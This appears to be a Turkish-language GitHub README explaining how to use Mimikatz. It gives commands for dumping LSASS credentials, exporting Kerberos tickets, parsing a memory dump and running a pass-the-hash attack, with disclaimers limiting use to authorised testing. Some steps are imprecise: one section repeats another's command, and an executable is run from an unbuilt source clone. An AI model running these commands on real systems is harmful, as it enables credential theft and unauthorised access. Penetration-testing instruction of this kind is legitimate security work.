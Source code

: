 # Mimikatz Kullanım Rehberi

## Mimikatz Nedir?

**Mimikatz**, Windows sistemlerinde kimlik bilgilerini çıkarmak, analiz etmek ve test etmek için kullanılan popüler bir güvenlik aracıdır. Araç, LSASS belleğinden parola özetlerini, biletleri ve diğer kimlik bilgilerini çıkartabilir. Genellikle penetrasyon testlerinde ve güvenlik değerlendirmelerinde kullanılır.

> **Önemli Not:** Mimikatz yalnızca yetkili test ortamlarında ve etik kullanım amaçlı çalıştırılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Ana Özellikleri

1. **Kimlik Bilgisi Çıkarma:**
   - Parola özetleri, Kerberos biletleri ve NTLM hash’lerini çıkarır.
2. **Yetki Yükseltme:**
   - Güvenlik açıklarından faydalanarak sistem yetkileri elde eder.
3. **Çoklu Platform Desteği:**
   - Farklı Windows sürümleriyle uyumlu çalışır.

---

## İndirme ve Çalıştırma

Mimikatz genellikle GitHub üzerinden sağlanır:

- [Mimikatz GitHub Sayfası](https://github.com/gentilkiwi/mimikatz)

### Çalıştırma Adımları

1. **Araç Dosyasını İndirin:**
   ```bash
   git clone https://github.com/gentilkiwi/mimikatz.git
   cd mimikatz/Win32
   ```

2. **Araç Dosyasını Çalıştırın:**
   ```cmd
   mimikatz.exe
   ```

---

## Kullanım Komutları

### 1. **Kimlik Bilgisi Çıkarma (logonPasswords)**

LSASS belleğinden oturum bilgilerini çıkarır.

**Kullanım:**
```cmd
privilege::debug
sekurlsa::logonPasswords
```

### 2. **NTLM Hash Çıkarma**

NTLM hash'lerini listelemek için kullanılır.

**Kullanım:**
```cmd
privilege::debug
sekurlsa::logonPasswords
```

### 3. **Kerberos Bileti Çıkarma (Kerberos::list)**

Kerberos biletlerini görüntüler.

**Kullanım:**
```cmd
privilege::debug
kerberos::list /export
```

### 4. **Parola Kırma İçin Dump Alma (sekurlsa::minidump)**

LSASS işleminin bir dump dosyasını oluşturur.

**Kullanım:**
```cmd
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords
```

### 5. **Pass-The-Hash Saldırısı**

NTLM hash'i kullanarak kimlik doğrulama yapar.

**Kullanım:**
```cmd
sekurlsa::pth /user:Administrator /domain:example.local /ntlm:<hash> /run:cmd
```

---

## Örnek Kullanım Senaryoları

### 1. LSASS Belleğinden Parola Çıkarma
```cmd
privilege::debug
sekurlsa::logonPasswords
```

### 2. Kerberos Bileti Çıkarma ve Kaydetme
```cmd
privilege::debug
kerberos::list /export
```

### 3. NTLM Hash Kullanarak Kimlik Doğrulama
```cmd
sekurlsa::pth /user:admin /domain:example.local /ntlm:<hash> /run:cmd
```

---

## Güvenlik ve Önlemler

- **Yetkili Kullanıcılar:** Mimikatz yalnızca güvenlik uzmanları ve yetkili sistem yöneticileri tarafından kullanılmalıdır.
- **Test Ortamı:** Araç, üretim ortamında kullanılmadan önce test ortamında değerlendirilmelidir.
- **Loglama:** Çalıştırılan komutlar sistem loglarına kaydedilebilir. Yasalara uygun hareket edilmelidir.

---

## Kaynaklar

- [Mimikatz GitHub Sayfası](https://github.com/gentilkiwi/mimikatz)
- [Windows Kimlik Doğrulama Belgeleri](https://learn.microsoft.com/en-us/windows-server/security/)

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
